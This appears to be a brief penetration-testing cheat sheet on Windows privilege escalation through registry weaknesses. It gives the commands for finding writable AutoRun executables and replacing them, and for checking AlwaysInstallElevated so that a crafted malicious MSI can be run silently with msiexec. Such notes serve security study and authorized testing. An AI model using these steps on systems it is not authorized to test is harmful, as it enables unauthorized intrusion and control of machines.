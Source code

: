 # Registry Exploits

## AutoRuns

AutoRuns are configured in the registry. If we have access to write to an AutoRun executable and we can restart the system we might escalate privileges.

Run WinPEAS with applications check:

```bash
.\WinPEAS.exe quiet applicationsinfo
```

Enumerate manually instead of using WinPAS:

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Use accesscheck with everyone to check permissions:

```bash
.\accesschk.exe /accepteula -wvu "C:\XX\XX.exe"
```

Final step is to overwrite the original binary with our own. Then, restart the machine.

## AlwaysInstallElevated

If the following registry keys (both) are enabled we can craft a malicious MSI:

```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Execute our crafted msi:

```bash
msiexec /quiet /qn /i $msifile
```
